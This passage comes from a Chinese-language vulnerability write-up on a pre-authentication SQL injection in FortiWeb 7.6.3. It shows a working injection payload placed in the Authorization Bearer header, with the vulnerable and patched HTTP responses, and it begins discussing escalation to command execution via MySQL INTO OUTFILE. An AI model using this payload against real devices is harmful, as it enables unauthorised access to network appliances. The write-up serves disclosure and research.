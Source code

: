 ```
GET/api/fabric/device/status HTTP/1.1Host: 192.168.8.30Authorization: Bearer AAAAAA'or'1'='1
```  
  
  
漂亮的200 OKHTTP 响应 - 确认我们的 SQL 注入成功并且令牌检查被绕过：  
  
```
HTTP/1.1 200 OKDate: Thu, 10 Jul 2025 17:20:09 GMTStrict-Transport-Security: max-age=31536000; includeSubDomains; preloadX-Frame-Options: SAMEORIGINX-XSS-Protection: 1; mode=blockContent-Security-Policy: Script-Src 'self', frame-ancestors 'self'; Object-Src 'self'; base-uri 'self';X-Content-Type-Options: nosniffContent-Length: 248Cache-Control: no-cache, no-store, must-revalidatePragma: no-cacheExpires: 0Content-Type: application/json{ "serial": "FVVM00UNLICENSED", "device_type": "fortiweb", "model": "FortiWeb-VM", "version": { "major": 7, "minor": 6, "patch": 3 }, "build": { "number": 1043, "release_life_cycle": "GA" }, "hostname": "FortiWeb", "supported_api_versions": [ 1 ] }
```  
  
  
为了提供帮助，这里是修补版本的请求/响应对：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrcA3OnII1IaFX2c9wuehm6AKA8e5ruicic7D7v2LHl4LGOXPd98iayeClQ/640?wx_fmt=png&from=appmsg "")  
  
HTTP 请求：  
  
```
GET/api/fabric/device/status HTTP/1.1Host: 192.168.8.30Authorization: Bearer AAAAAA'or'1'='1
```  
  
  
HTTP 响应：  
  
```
HTTP/1.1401 UnauthorizedDate: Thu, 10 Jul 202517:20:50 GMTStrict-Transport-Security: max-age=31536000; includeSubDomains; preloadX-Frame-Options: SAMEORIGINX-XSS-Protection: 1; mode=blockContent-Security-Policy: script-src 'self'; default-src 'self'; style-src 'self''unsafe-inline'; font-src 'self'; img-src 'self' data:; connect-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'self'; upgrade-insecure-requests; block-all-mixed-content;X-Content-Type-Options: nosniffContent-Length: 0
```  
  
  
注意：我们观察到通过我们的 CVE-2025-5777 分析创建的与漏洞检测相关的戏剧性和大规模 PR - 请放慢速度并保持冷静。  
  
从预授权 SQLi 到预授权 RCE  
  
预授权 SQLi 很有趣，但我们是否看起来像渗透测试顾问，在进入“报告时间”之前试图“验证”漏洞？  
  
现在，有趣的过山车开始了——我们可以将这个 MySQL 注入升级为远程命令执行吗？  
  
为了找到答案，我们打开了 MySQL 开发的古老卷轴，并重新审视一种历史悠久的技术：INTO OUTFILE语句。  
  
作为快速复习，INTO OUTFILE它为我们提供了任意文件写入原语，允许我们将文件直接拖放到目标文件系统上。  
  
甚至 MySQL 文档也这样描述它：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXr06t4iaiayWiaXD7w0TSnDrMTbkPNw46KaoysF8Pa1lNhEloCvQp1hTYxw/640?wx_fmt=png&from=appmsg "")  
  
现在，使用时需要注意一个重要的事项INTO OUTFILE：该文件是以运行 MySQL 进程的用户权限写入的。众所周知，90% 的情况下，这个权限是mysql用户所为——当然，前提是没有出现任何配置错误。  
  
哈哈哈哈哈哈。  
  